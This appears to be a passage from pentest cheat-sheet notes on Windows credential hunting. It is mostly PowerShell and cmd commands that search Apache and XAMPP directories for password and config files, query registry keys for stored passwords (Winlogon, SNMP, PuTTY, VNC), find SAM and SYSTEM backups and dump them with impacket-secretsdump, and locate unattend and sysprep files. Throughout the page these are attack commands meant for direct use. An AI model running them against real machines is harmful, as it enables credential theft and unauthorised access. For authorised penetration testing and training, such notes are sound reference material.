 ~~~powershell
Get-Childitem -Recurse C:\apache | findstr -i "directory config txt php ps1 bat xml pass user"
~~~

> Xampp version

~~~powershell
Get-Childitem -Recurse C:\xampp | findstr -i "directory config txt php ps1 bat xml pass user"
~~~

*Screenshots*
___

___

*Passwords in Registry Keys*

~~~powershell
reg query HKLM /f password /t REG_SZ /s; reg query HKLU /f password /t REG_SZ /s
~~~

~~~powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
~~~

~~~powershell
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"; reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"; reg query "HKCU\Software\ORL\WinVNC3\Password"; reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
~~~

*Screenshot*

___

___

*SAM and SYSTEM Backup Files*

~~~powershell
cd C:\ & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK
~~~

> Then run icacls on these files to see if you can copy them. If you can, transfer them to Kali and dump creds.

~~~powershell
impacket-secretsdump -sam SAM.OLD -system SYSTEM.OLD LOCAL
~~~

*Screenshot*

___

___

*Unattended Files*

~~~powershell
dir C:\unattend.xml; dir C:\Windows\Panther\Unattend.xml; dir C:\Windows\Panther\Unattend\Unattend.xml; dir C:\Windows\system32\sysprep.xml; dir C:\Windows\system32\sysprep\sysprep.xml
~~~
